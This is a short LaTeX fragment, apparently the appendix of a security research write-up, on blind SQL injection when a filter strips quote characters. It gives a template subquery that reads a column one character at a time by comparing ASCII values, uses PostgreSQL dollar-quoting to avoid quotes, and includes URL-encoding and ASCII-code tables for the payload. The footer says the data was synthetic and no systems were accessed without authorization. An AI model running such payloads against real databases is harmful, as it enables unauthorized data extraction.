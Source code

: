 \documentclass[11pt]{article}
\begin{document}
\paragraph{ASCII Fallback for Stripped Characters.}:

\begin{lstlisting}
(SELECT ascii(substr(COLUMN,POSITION,1)) FROM SCHEMA.TABLE WHERE KEY LIKE $_$VALUE$_$) = 45
\end{lstlisting}

\paragraph{URL Encoding.}
\begin{center}
\small
\begin{tabular}{@{}ll@{}}
\toprule
Char & Encoded \\
\midrule
\lstinline|$_$| & \lstinline|%24_%24| \\
\lstinline|=|   & \lstinline|%3D| \\
\lstinline|(|   & \lstinline|%28| \\
\lstinline|)|   & \lstinline|%29| \\
\lstinline|,|   & \lstinline|%2C| \\
\lstinline|/|   & \lstinline|%2F| \\
\bottomrule
\end{tabular}
\end{center}

\paragraph{Stripped Character ASCII Codes.}
\begin{center}
\small
\begin{tabular}{@{}ll@{}}
\toprule
Char & ASCII \\
\midrule
\lstinline|'| & 39 \\
\lstinline|;| & 59 \\
\lstinline|-| & 45 \\
\bottomrule
\end{tabular}
\end{center}

\vspace{1em}
\noindent\rule{\linewidth}{0.4pt}\\
\small\textit{Discovered and documented May 2026. No prior publication known. All
test data was synthetic. No production systems were accessed without
authorization.}
\end{document}
